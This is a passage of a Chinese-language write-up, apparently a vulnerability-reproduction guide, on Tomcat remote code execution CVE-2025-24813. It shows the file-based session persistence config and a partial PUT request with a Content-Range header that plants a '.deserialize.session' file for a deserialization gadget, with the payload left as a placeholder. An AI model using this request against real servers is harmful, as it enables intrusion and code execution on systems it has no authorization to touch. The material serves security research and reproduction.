 其次，在 `conf/context.xml` 中，Tomcat 配置了基于文件的 Session 持久化：

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

这两种配置都使用相同的默认存储路径：`$CATALINA_BASE/work/Catalina/localhost/ROOT`。

### URLDNS

我们先用 URLDNS gadget 进行测试。发送带有 Content-Range 头的部分 PUT 请求，在临时目录 `$CATALINA_BASE/work/Catalina/localhost/ROOT` 中写入名为 `.deserialize.session` 的文件：

```
PUT /deserialize/session HTTP/1.1
Host: your-ip:8080
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: application/data
Content-Length: 1000
Content-Range: bytes 0-1000/1200

YOUR-PAYLOAD-HERE
```

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317114226744.png)
